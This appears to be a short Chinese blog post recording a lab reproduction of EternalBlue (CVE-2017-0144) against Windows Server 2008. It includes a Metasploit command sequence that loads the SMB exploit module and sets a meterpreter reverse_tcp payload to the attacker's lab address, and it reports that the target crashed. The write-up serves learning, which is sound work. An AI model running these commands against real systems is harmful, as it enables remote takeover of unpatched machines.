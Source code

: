 # Windows Server 2008 CVE20170144验证

<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=29567192&auto=1&height=66"></iframe>  

歌挺好听，奈何水文太短，看完歌都没听完。😂抱歉了~嘿嘿嘿

本文也是照着别人写的例子完全操作成功了，然后再记录下来的，为方便以后使用，特此整理记录。

### 漏洞信息
CVEID：2017-0144  
漏洞名称：Windows server 2008系列缓冲区溢出漏洞（永恒之蓝）  
发布时间：2017-03-14

### 漏洞简介
Server Message Block（SMB）Server是为计算机提供身份验证用以访问服务器上打印机和文件系统的组件。 Microsoft Windows中的SMBv1服务器存在远程代码执行漏洞。远程攻击者可借助特制的数据包利用该漏洞执行任意代码。

### 实验环境
Kali x64（攻击机）：192.168.0.6  
Windows server 2008 x64（靶机）：192.168.0.9

```sh
msfconsole
use exploit/windows/smb/ms17_010_eternalbluer
set LHOST 192.168.0.6 
set RHOST 192.168.0.9 
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

![winserver2008attack1](/images/posts/winserver2008attack1.png)



![winserver2008attack2](/images/posts/winserver2008attack2.png)



### 现象：

靶机windows server 2008 x64蓝屏宕机重启。

 ![winserver2008crush](/images/posts/winserver2008-crush.png)


---

> : 嘟囔  
> URL: https://newdivide2014.github.io/zh/zh/posts/win-server-2008-cve20170144/  

